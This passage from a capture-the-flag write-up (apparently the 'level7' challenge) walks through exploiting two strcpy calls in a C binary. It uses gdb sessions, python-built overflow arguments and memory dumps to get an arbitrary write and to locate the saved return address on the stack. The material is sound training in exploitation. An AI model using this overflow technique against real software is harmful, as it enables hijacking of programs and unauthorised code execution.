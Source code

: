 ```c
// First strcpy, we can overwrite the address stored in var2[1].
strcpy((char *)var1[1],argv[1]);
// Second strcpy, var2[1] now contains the address we want to write to, and argv[2] the content.
strcpy((char *)var2[1],argv[2]);
```

We need to write **20 dummy bytes**, and then our address of choice in `argv[1]`.

```
(gdb) b *0x080485bd
Breakpoint 3 at 0x80485bd
(gdb) d 2
(gdb) r $(python -c 'print("a"*20 + "\xEF\xBE\xAD\xDE")') bbbbbbbb
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level7/level7 $(python -c 'print("a"*20 + "\xEF\xBE\xAD\xDE")') bbbbbbbb

Breakpoint 3, 0x080485bd in main ()
(gdb) x/20wx 0x0804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a028:	0x61616161	0xdeadbeef	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```

The second `strcpy` would be equivalent to the following :

```c
strcpy(0xDEADBEEF, "bbbbbbbb");
```

## Putting it together

We have know gain the ability to write an **arbitrary value** at an **abitrary address**. Since the function `m` is printing our flag, we would like to execute this function.

Remembering that `main` is a function called by the *C standard library*, we can know for sure that a **saved EIP** is on the stack. Closer inspection with **GDB** confirms this :

```
(gdb) b *0x080485bd
Breakpoint 1 at 0x80485bd
(gdb) r a b
Starting program: /home/user/level7/level7 a b

Breakpoint 1, 0x080485bd in main ()
(gdb) x/30xw $esp
0xbffff710:	0x0804a038	0xbffff913	0xb7fd0ff4	0xb7e5ee55
0xbffff720:	0xb7fed280	0x00000000	0x0804a028	0x0804a008
0xbffff730:	0x08048610	0x00000000	0x00000000	0xb7e454d3 <--
0xbffff740:	0x00000003	0xbffff7d4	0xbffff7e4	0xb7fdc858
0xbffff750:	0x00000000	0xbffff71c	0xbffff7e4	0x00000000
0xbffff760:	0x0804825c	0xb7fd0ff4	0x00000000	0x00000000
0xbffff770:	0x00000000	0xfbe8aef5	0xccaf0ae5	0x00000000
0xbffff780:	0x00000000	0x00000000

(gdb) x/10i 0xb7e454d3
   0xb7e454d3 <__libc_start_main+243>:	mov    DWORD PTR [esp],eax
   0xb7e454d6 <__libc_start_main+246>:	call   0xb7e5ebe0 <exit>
   0xb7e454db <__libc_start_main+251>:	xor    ecx,ecx
   0xb7e454dd <__libc_start_main+253>:	jmp    0xb7e45414 <__libc_start_main+52>
   0xb7e454e2 <__libc_start_main+258>:	mov    eax,DWORD PTR [ebx+0x3934]
   0xb7e454e8 <__libc_start_main+264>:	ror    eax,0x9
   0xb7e454eb <__libc_start_main+267>:	xor    eax,DWORD PTR gs:0x18
```